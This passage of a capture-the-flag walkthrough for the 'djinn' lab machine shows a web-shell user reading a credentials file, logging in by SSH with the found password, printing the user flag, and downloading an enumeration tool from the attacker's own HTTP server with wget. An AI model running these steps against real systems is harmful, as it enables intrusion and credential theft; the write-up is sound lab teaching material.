 ```
drwxr-xr-x 4 root   root   4096 Nov 14  2019 ..
-rw------- 1 root   root    130 Nov 12  2019 .bash_history
-rw-r--r-- 1 nitish nitish 3771 Nov 11  2019 .bashrc
drwx------ 2 nitish nitish 4096 Nov 11  2019 .cache
drwxr-xr-x 2 nitish nitish 4096 Oct 21  2019 .dev
drwx------ 3 nitish nitish 4096 Nov 11  2019 .gnupg
-rw-r----- 1 nitish nitish   33 Nov 12  2019 user.txt
www-data@djinn:/home/nitish$ cd .dev
cd .dev
www-data@djinn:/home/nitish/.dev$ ls
ls
creds.txt
www-data@djinn:/home/nitish/.dev$ cat creds.txt
cat creds.txt
nitish:p4ssw0rdStr3r0n9
```

Having those credentials, I successfully logged in via SSH into ```nitish```.

```
$ ssh nitish@192.168.159.168
nitish@192.168.159.168's password: 

Last login: Sat Oct  1 09:47:18 2022 from 192.168.159.128
nitish@djinn:~$
```

And now we had the user flag.

```
nitish@djinn:~$ cat user.txt
10aay8289ptgguy1pvfa73alzusyyx3c
```

## Step 6 - Privilege Escalation Part 2

I started an HTTP server on my machine, allowing me to download my scripts from the target machine using ```wget``` requests.

```
$ sudo python3 -m http.server 80                                      
[sudo] password for meowmycks: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
I then downloaded a local copy of Linux Smart Enumeration (LSE) onto the target machine.

LSE allows me to scan the host for common privilege escalation points and some additional known vulnerabilities.

Kali:
```
192.168.8.91 - - [15/Oct/2022 09:41:47] "GET /lse.tar HTTP/1.1" 200 -
```
Target:
```
www-data@djinn:/var/www$ wget http://192.168.8.199/lse.tar
--2022-10-15 19:11:47--  http://192.168.8.199/lse.tar
Connecting to 192.168.8.199:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12820480 (12M) [application/x-tar]
Saving to: 'lse.tar'

lse.tar             100%[===================>]  12.23M  --.-KB/s    in 0.07s   

2022-10-15 19:11:47 (171 MB/s) - 'lse.tar' saved [12820480/12820480]
```
